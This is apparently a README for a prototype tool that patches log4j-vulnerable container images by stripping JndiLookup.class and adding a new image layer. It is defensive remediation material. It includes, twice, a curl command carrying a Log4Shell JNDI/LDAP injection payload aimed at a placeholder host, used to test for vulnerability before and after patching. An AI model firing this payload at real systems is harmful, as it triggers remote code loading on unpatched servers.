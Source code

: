 
# Patching container images

> **WARNING**: This is a demo/prototype. DO NOT USE FOR PRODUCTION!!!!**


## Preparation

Clone and build example application with log4j vulnerability

```
git clone https://github.com/christophetd/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
docker build . -t vulnerable-app
```

Run the application

```
docker run --rm -p 8080:8080 vulnerable-app
```

Make a request with payload and observe from logs that the application tried to connect to the LDAP server (you do not need to have LDAP server for this)

```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```



## Patching vulnerable image

Clone this repository and use `extract` to extract the (suspected) vulnerable files.
It will go through all files in the source image and find `log4j-core` either directly as `jar` file or embedded within another `jar` file.
The command will extract all matching files to the `patch` directory.

```
go run cmd/extract/main.go -source-tag vulnerable-app -dest-dir patch
```

In this case, the `log4j-core` package is within executable `jar`.
Unzip the application to get to the `log4j-core` file

```
unzip -d jar patch/app/spring-boot-application.jar
```

Patch `log4j-core` by removing `JndiLookup.class` from the application `jar`

```
find jar -name log4j-core-* -exec zip -q -d {} org/apache/logging/log4j/core/lookup/JndiLookup.class \;
```

Create a new executable application jar and overwrite the vulnerable version with it

```
(cd jar; zip -0 -r ../patched-spring-boot-application.jar .)
mv patched-spring-boot-application.jar patch/app/spring-boot-application.jar
```

Create a new patched container image, with an additional layer.
The contents of the layer is loaded from the `patch` directory

```
go run cmd/patch/main.go -source-tag vulnerable-app -dest-tag patched-app -patch-dir patch
```

Run the test again with the patched application and observe that it is not vulnerable anymore

```
docker run --rm -p 8080:8080 patched-app
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
